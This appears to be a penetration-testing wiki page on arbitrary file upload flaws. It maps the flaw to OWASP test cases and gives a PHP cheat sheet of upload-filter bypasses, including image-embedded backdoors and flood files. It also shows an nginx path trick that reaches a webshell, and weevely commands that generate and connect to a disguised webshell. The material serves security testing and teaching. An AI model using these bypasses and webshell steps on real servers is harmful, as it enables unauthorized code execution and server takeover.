



# Arbitrary File Upload


??? quote "OWASP"
	[OWASP Web Security Testing Guide 4.2](../OWASP/index.md) > 10. Business logic Testing > 10.8. Test Upload of Unexpected File Types 

	|ID|Link to Hackinglife|Link to OWASP|Description|
	|:---|:---|:---|:---|
	|10.8|[WSTG-BUSL-08](../OWASP/WSTG-BUSL-08.md)|[Test Upload of Unexpected File Types](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/10-Business_Logic_Testing/08-Test_Upload_of_Unexpected_File_Types)|- Review the project documentation for file types that are rejected by the system.  - Verify that the unwelcomed file types are rejected and handled safely. Also, check whether the website only check for "Content-type" or file extension.  - Verify that file batch uploads are secure and do not allow any bypass against the set security measures.|
	|10.9|[WSTG-BUSL-09](../OWASP/WSTG-BUSL-09.md)|[Test Upload of Malicious Files](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/10-Business_Logic_Testing/09-Test_Upload_of_Malicious_Files)|- Identify the file upload functionality.  - Review the project documentation to identify what file types are considered acceptable, and what types would be considered dangerous or malicious.  - If documentation is not available then consider what would be appropriate based on the purpose of the application.  - Determine how the uploaded files are processed.  - Obtain or create a set of malicious files for testing.  - Try to upload the malicious files to the application and determine whether it is accepted and processed.|

An arbitrary file upload vulnerability is a type of security flaw in web applications that allows an attacker to upload and execute malicious files on a web server. This can have serious consequences, including unauthorized access to sensitive data, server compromise, and even complete system control. The vulnerability arises when the application fails to properly validate and secure the uploaded files. This means that the application may not check if the uploaded file is actually of the expected type (e.g., image, PDF), or it may not restrict the file's location or execution on the server.


**Exploitation**: An attacker identifies the file upload functionality in the target  application and attempts to upload a malicious file. This file can be crafted to include malicious code, such as PHP scripts, shell commands, or malware.

**Bypassing Validation**: If the application doesn't properly validate file types or restricts file locations, the attacker can upload a file with a misleading extension (e.g., uploading a PHP file with a .jpg extension).


## Bypass file upload restrictions

Uploaded files represent a significant risk to applications. The first step in many attacks is to get some code to the system to be attacked. Then the attack only needs to find a way to get the code executed. Using a file upload helps the attacker accomplish the first step.


## Cheat sheet for php 

Source: [Repo from imran-parray](https://github.com/imran-parray/Web-Sec-CheatSheet/blob/master/File-Upload-test.txt)
OWASP deep explanation: [link](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

```
# try to upload a simple php file
upload.php 

# To bypass the blacklist.
upload.php.jpeg 

# To bypass the blacklist.
upload.jpg.php
#  and Then Change the content type of the file to image or jpeg.
upload.php 

# version - 1 2 3 4 5 6 7
upload.php*

# To bypass The BlackList
upload.PHP 
upload.PhP 
upload.pHp 

#  By uploading this [jpg,png] files can be executed as php with milicious code within it.
upload .htaccess

# To test againt the DOS.
pixelFlood.jpg

#  upload gif file with 10^10 Frames
frameflood.gif

# upload UBER.jpg
Malicious zTXT 

# Add backdoor in comments using Exiftool and 
upload.php [getimagesize() 
# rename the jpg file with php so that it will be execute. This Time The Verification of server is only limited to contents of the uploaded file not on the extension

# backdoor in php chunks
phppng.png 

# backdoor in php chunks 
xsspng.png 
```


## Bypassing uploading a file in nginx

After bypassing a file upload feature (using .jpg extension but php mimetype), the file is treated by the application as an image.




How to bypass that situation? This works in some versions of nginx server:

```
# After the name of the file with the jpg extension, add slash and the name of the file with the uploaded and accepted mimetype php. After that you can use the CMD command of the webshell.

https://example.com/uploads/lolo.jpg/lolo.php?cmd=pwd
```



## Tools

Generate a php webshell with [Weevely](../weevely.md) and saving it an image:

```
weevely generate secretpassword example.png 
```


Upload it to the application.


Make the connection with weevely:

```
weevely https://example.com/uploads/example.jpg/example.php secretpassword
```


